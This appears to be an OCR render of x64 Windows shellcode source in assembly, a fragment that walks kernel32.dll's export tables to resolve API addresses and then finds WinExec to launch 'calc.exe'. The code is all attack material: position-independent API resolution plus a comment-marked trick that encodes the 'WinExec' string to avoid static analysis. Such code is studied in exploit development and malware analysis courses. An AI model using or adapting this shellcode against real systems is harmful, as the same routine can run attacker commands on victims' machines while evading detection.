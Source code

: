 ```Asm
add r10, r8             ; R10 = &AddressTable

; Get &NamePointerTable from Kernel32.dll ExportTable
xor r11, r11
mov r11d, [rdx+0x20]    ; R11 = [&ExportTable + Offset RVA Name PointerTable] = RVA NamePointerTable
add r11, r8             ; R11 = &NamePointerTable (Memory Address of Kernel32.dll Export NamePointerTable)

; Get &OrdinalTable from Kernel32.dll ExportTable
xor r12, r12
mov r12d, [rdx+0x24]    ; R12 = RVA  OrdinalTable
add r12, r8             ; R12 = &OrdinalTable

jmp short apis

; Get the address of the API from the Kernel32.dll ExportTable
getapiaddr:
pop rbx                 ; save the return address for ret 2 caller after API address is found
pop rcx                 ; Get the string length counter from stack
xor rax, rax            ; Setup Counter for resolving the API Address after finding the name string
mov rdx, rsp            ; RDX = Address of API Name String to match on the Stack 
push rcx                ; push the string length counter to stack
loop:
mov rcx, [rsp]          ; reset the string length counter from the stack
xor rdi,rdi             ; Clear RDI for setting up string name retrieval
mov edi, [r11+rax*4]    ; EDI = RVA NameString = [&NamePointerTable + (Counter * 4)]
add rdi, r8             ; RDI = &NameString    = RVA NameString + &kernel32.dll
mov rsi, rdx            ; RSI = Address of API Name String to match on the Stack  (reset to start of string)
repe cmpsb              ; Compare strings at RDI & RSI
je resolveaddr          ; If match then we found the API string. Now we need to find the Address of the API 
incloop:
inc rax
jmp short loop

; Find the address of GetProcAddress by using the last value of the Counter
resolveaddr:
pop rcx                 ; remove string length counter from top of stack
mov ax, [r12+rax*2]     ; RAX = [&OrdinalTable + (Counter*2)] = ordinalNumber of kernel32.<API>
mov eax, [r10+rax*4]    ; RAX = RVA API = [&AddressTable + API OrdinalNumber]
add rax, r8             ; RAX = Kernel32.<API> = RVA kernel32.<API> + kernel32.dll BaseAddress
push rbx                ; place the return address from the api string call back on the top of the stack
ret                     ; return to API caller

apis:                   ; API Names to resolve addresses
; WinExec | String length : 7
xor rcx, rcx
add cl, 0x7                 ; String length for compare string
mov rax, 0x9C9A87BA9196A80F ; not 0x9C9A87BA9196A80F = 0xF0,WinExec 
not rax ;mov rax, 0x636578456e6957F0 ; cexEniW,0xF0 : 636578456e6957F0 - Did Not to avoid WinExec returning from strings static analysis
shr rax, 0x8                ; xEcoll,0xFFFF --> 0x0000,xEcoll
push rax
push rcx                    ; push the string length counter to stack
call getapiaddr             ; Get the address of the API from Kernel32.dll ExportTable
mov r14, rax                ; R14 = Kernel32.WinExec Address


; UINT WinExec(
;   LPCSTR lpCmdLine,    => RCX = "calc.exe",0x0
```